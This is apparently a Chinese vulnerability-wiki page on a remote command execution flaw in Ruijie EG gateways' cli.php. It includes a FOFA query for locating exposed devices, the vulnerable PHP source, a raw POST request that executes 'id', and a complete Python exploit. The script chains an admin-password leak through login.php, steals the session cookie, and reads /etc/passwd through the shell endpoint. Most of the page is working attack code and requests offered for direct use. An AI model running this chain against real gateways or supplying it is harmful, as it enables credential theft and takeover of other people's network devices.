


锐捷 EG易网关 cli.php 远程命令执行漏洞¶
漏洞描述¶
锐捷EG易网关 cli.php存在命令执行漏洞，配合 锐捷EG易网关 管理员账号密码泄露漏洞 达到RCE控制服务器
漏洞影响¶
锐捷EG易网关
网络测绘¶
app="Ruijie-EG易网关"
漏洞复现¶
首先登录到后台中(可以组合 锐捷EG易网关 管理员账号密码泄露漏洞)
漏洞文件 cli.php
<?php
/**
* cli命令查询
*/
define('IN', true); //定位该文件是入口文件
define('DS', DIRECTORY_SEPARATOR);
define('AROOT', dirname(__FILE__) . DS);
include_once(AROOT . 'mvc' . DS . 'controller' . DS . 'core.controller.php');
class defaultController extends coreController {
function __construct() {
// 载入默认的
parent::__construct();
}
/**
* cli命令执行
*/
public function indexAction() {
$mode = p("mode_url");
$command = p("command");
$answer = p("answer");
if ($mode == false)
$mode = "exec";
if ($answer == false)
$answer = "";
if ($command !== false)
$command = iconv('UTF-8', 'GBK//IGNORE', $command);
$data = execCli($mode, $command, $answer);
if ($data["status"] !== 1) {
json_echo($data);
exit();
}
$res = preg_replace(array("/%01/", "/%22/", "/%09/", "/%0D/", "/%3A/","/%07/"), array("", '"', "\t", "", ":",""), urlencode($data["data"])); //先进行url编码防止gbk中文无法json,再过滤首尾空方块
$resArr = explode("%0A", $res);
//$resArr = preg_split("/\r\n|\n/", $data["data"]);
if ($mode == "config" && strstr($resArr[0], "Enter+configuration+commands%2C+one+per+line.++End+with+CNTL%2FZ."))
array_shift($resArr);
$data["data"] = $resArr;
if (!headers_sent()) {
header("Content-type: text/json;charset=gbk");
//header("Expires: Thu, 01 Jan 1970 00:00:01 GMT");
header("Cache-Control: no-cache, must-revalidate");
header("Pragma: no-cache");
}
echo urldecode(json_encode($data));
//echo json_encode($data);
}
/**
* 执行shell脚本
*/
public function shellAction() {
$command = p("command");
if ($command == false) {
$data["status"] = 2;
$data["msg"] = "no command";
json_echo($data);
exit();
}
$content = [];
exec(EscapeShellCmd($command), $content);
$data = array("status" => true,
"data" => $content);
json_echo($data);
}
/**
* 获取系统时间
*/
public function dateAction() {
setTimeZone();
$data['status'] = true;
$data["data"]["time"] = date("Y-m-d H:i:s");
$data["data"]["zone"] = "UTC" . getTimeZone();
json_echo($data);
}
/**
* 获取系统时区
*/
public function datezoneAction() {
$data['status'] = true;
$data["data"] = getTimeZone();
json_echo($data);
}
/**
* 检测静态页面时候未登录直接进入
*/
public function checkloginAction() {
json_echo(array("status" => true));
}
}
include_once(AROOT . "init.php"); //mvc初始化入口，放在底部
关键部分代码为
/**
* 执行shell脚本
*/
public function shellAction() {
$command = p("command");
if ($command == false) {
$data["status"] = 2;
$data["msg"] = "no command";
json_echo($data);
exit();
}
$content = [];
exec(EscapeShellCmd($command), $content);
$data = array("status" => true,
"data" => $content);
json_echo($data);
}
command参数直接传入执行了命令
发送请求包
POST /cli.php?a=shell HTTP/1.1
Host:
User-Agent: Go-http-client/1.1
Content-Length: 24
Content-Type: application/x-www-form-urlencoded
Cookie: RUIJIEID=nk5erth9i0pvcco3n7fbpa9bi0;user=admin;
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip
notdelay=true&command=id

漏洞POC¶
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from : http://wiki.peiqi.tech
import base64
import requests
import random
import re
import json
import sys
def title():
print('+------------------------------------------')
print('+ \033[34mPOC_Des: http://wiki.peiqi.tech \033[0m')
print('+ \033[34mGithub : https://github.com/PeiQi0 \033[0m')
print('+ \033[34m公众号 : PeiQi文库 \033[0m')
print('+ \033[34mVersion: 锐捷EG网关 cli.php RCE \033[0m')
print('+ \033[36m使用格式: python3 poc.py \033[0m')
print('+ \033[36mUrl >>> http://xxx.xxx.xxx.xxx \033[0m')
print('+------------------------------------------')
def POC_1(target_url):
vuln_url = target_url + "/login.php"
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
"Content-Type": "application/x-www-form-urlencoded"
}
data = 'username=admin&password=admin?show+webmaster+user'
try:
response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
print("\033[36m[o] 正在执行 show webmaster user \033[0m".format(target_url))
if "data" in response.text and response.status_code == 200:
password = re.findall(r'admin (.*?)"', response.text)[0]
print("\033[36m[o] 成功获取, 账号密码为: admin {} \033[0m".format(password))
POC_2(target_url, password)
except Exception as e:
print("\033[31m[x] 请求失败:{} \033[0m".format(e))
sys.exit(0)
def POC_2(target_url, password):
vuln_url = target_url + "/login.php"
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
"Content-Type": "application/x-www-form-urlencoded"
}
data = 'username=admin&password={}'.format(password)
try:
response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
print("\033[36m[o] 正在登录..... \033[0m".format(target_url))
if "status" in response.text and "1" in response.text and response.status_code == 200:
ruijie_cookie = "RUIJIEID=" + re.findall(r"'Set-Cookie': 'RUIJIEID=(.*?);", str(response.headers))[0] + ";user=admin;"
print("\033[36m[o] 成功获取管理员Cookie: {} \033[0m".format(ruijie_cookie))
POC_3(target_url, ruijie_cookie)
except Exception as e:
print("\033[31m[x] 请求失败:{} \033[0m".format(e))
sys.exit(0)
def POC_3(target_url, ruijie_cookie):
vuln_url = target_url + "/cli.php?a=shell"
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
"Content-Type": "application/x-www-form-urlencoded",
"Cookie": "{}".format(ruijie_cookie)
}
data = 'notdelay=true&command=cat /etc/passwd'
try:
response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
print("\033[36m[o] 正在执行 cat /etc/passwd..... \033[0m".format(target_url))
if "root:" in response.text and response.status_code == 200:
print("\033[36m[o] 成功读取 /etc/passwd \n[o] 响应为:{} \033[0m".format(response.text))
except Exception as e:
print("\033[31m[x] 请求失败:{} \033[0m".format(e))
sys.exit(0)
if __name__ == '__main__':
title()
target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
POC_1(target_url)
